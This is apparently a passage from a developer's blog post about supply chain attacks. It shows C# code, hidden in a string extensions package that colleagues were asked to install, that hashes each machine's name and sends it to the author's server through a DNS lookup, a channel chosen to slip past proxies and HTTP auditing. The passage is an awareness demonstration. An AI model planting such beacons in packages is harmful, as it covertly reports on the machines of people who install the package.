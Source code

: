I'll start with the "attack" that is in `MaartenBalliauw.StringExtensions`. Code snippets so far contained `// Do something fishy here...`, so let's expand on what I'm doing...

As part of this exploration, I asked some colleagues and friends to try out my string extensions package!
How would I know if the supply chain attack worked? I'd need a server, and an API to post some data to...

The easy answer would have been to use an HTTP API, and host that somewhere. But HTTP seemed... too heavy and visible!
In many environments, I'd expect a proxy server would be in place, or some auditing on HTTP requests being made.
If a developer runs their program with Application Insights enabled, they would see a dependency call to my HTTP API.

So, I needed an easier server, one that I expect to work on more networks: DNS!

Here's what our supply chain attack does:

```csharp
using (var md5 = System.Security.Cryptography.MD5.Create())
{
    var hashBytes = md5.ComputeHash(
        Encoding.ASCII.GetBytes(Environment.MachineName));

    var sb = new StringBuilder();
    foreach (var b in hashBytes)
        sb.Append(b.ToString("X2"));

    await Dns.GetHostEntryAsync(sb + ".honeypot.maartenballiauw.be");
}
```

In human language: it MD5-hashes your machine name, and then tries retrieving the DNS record `{hash}.honeypot.maartenballiauw.be`.

The `honeypot.maartenballiauw.be` domain name has a nameserver record pointing to a custom DNS server I built, and responds with a simple record pointing to `127.0.0.1`.

The custom DNS running that logs the last couple of requests...

![Custom DNS server logs last couple of requests](/images/2021/05/custom-dns-server.png)
